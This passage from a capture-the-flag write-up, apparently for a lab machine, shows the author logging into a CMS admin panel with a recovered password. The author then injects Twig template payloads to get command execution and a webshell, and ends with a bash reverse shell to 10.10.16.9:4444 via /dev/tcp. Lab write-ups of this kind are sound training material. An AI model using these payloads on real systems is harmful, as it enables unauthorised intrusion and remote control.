 ![image.png]({{ site.baseurl }}/assets/talkative/image%2014.png)

![image.png]({{ site.baseurl }}/assets/talkative/image%2015.png)

None of the username/credentials work. Let’s try putting the username as admin, and try all the passwords; the correct password was matt’s

```bash
jeO09ufhWD<s
```

We are in. If we go on File Management, View & Edit Templates **`themes/base-2021/index.twig` We can try modifying:**

![image.png]({{ site.baseurl }}/assets/talkative/image%2016.png)

Before we can see the changes, let’s also go to Maintenance, and clear the caches. Now visiting the home page, searching for our TESTING string:

![image.png]({{ site.baseurl }}/assets/talkative/image%2017.png)

We find it. Let’s find a twig reverse shell method. First we search PayloadsAllTheThings twig. There is a SSTI page, that mentions twig. If we click on it, find the enumerate the template engine part, there is another link:

![image.png]({{ site.baseurl }}/assets/talkative/image%2018.png)

https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756

Now we search for twig, we find the RCE command in **Out of Band Template Injection Payloads:**

![image.png]({{ site.baseurl }}/assets/talkative/image%2019.png)

![image.png]({{ site.baseurl }}/assets/talkative/image%2020.png)

Let’s change the command to id to verify:

{% highlight bash %}
{{['id']|filter('system')}}

OR WEBSHELL

{{app.request.query.filter('cmd',0,1024,{'options':'system'})}}
{% endhighlight %}

Save changes, and clear the cache, go back to the main page. Searching for id, we find:

![image.png]({{ site.baseurl }}/assets/talkative/image%2021.png)

It works. Let’s get a shell back:

```bash
bash -c 'sh -i >& /dev/tcp/10.10.16.9/4444 0>&1'

{{["bash -c 'sh -i >& /dev/tcp/10.10.16.9/4444 0>&1'"]|filter('system')}}
```
